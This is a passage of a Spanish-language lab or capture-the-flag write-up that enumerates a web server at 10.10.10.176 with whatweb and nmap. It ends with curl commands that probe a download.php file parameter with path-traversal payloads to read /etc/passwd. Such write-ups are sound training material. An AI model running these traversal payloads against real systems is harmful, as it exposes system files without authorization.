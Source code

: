 
### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.176
```

Es un Apache 2.4.29 Ubuntu que usa PHP 7.3.4. Vemos un password field que nos hace pensar que estamos
en un panel de inicio de session.

#### Mini fuzzing con http-enum {-}

```bash
nmap --script http-enum -p80 10.10.10.176 -oN webScan
```

Vemos un directorio 
```bash
 /admin 
```


#### Checkear la web {-}

Si entramos en la url 
```bash
 http://10.10.10.176 
```
, Vemos una pagina que nos permite loggear o registrar. En la pagina 
```bash
 http://10.10.10.176/admin 
```
 tenemos un
otro panel de inicio de session para el panel de administracion.

Empezamos por crear una cuenta
y nos loggeamos.

Aqui vemos una biblioteca. Podemos

- ver libros en pdf
- añadir un libro a la coleccion
- contactar el administrator

Haciendo Hovering a las imagenes de la pagina 
```bash
 books.php 
```
, vemos que hay un link a 
```bash
 http://10.10.10.176/download.php?file=1 
```


Miramos con curl si es vulnerable a LFI

```bash
curl -s -X GET "http://10.10.10.176/download.php?file=/etc/passwd"
curl -s -X GET "http://10.10.10.176/download.php?file=/etc/passwd -L"
curl -s -X GET "http://10.10.10.176/download.php?file=../../../../../../etc/passwd"
curl -s -X GET "http://10.10.10.176/download.php?file=../../../../../../etc/passwd -L"
```
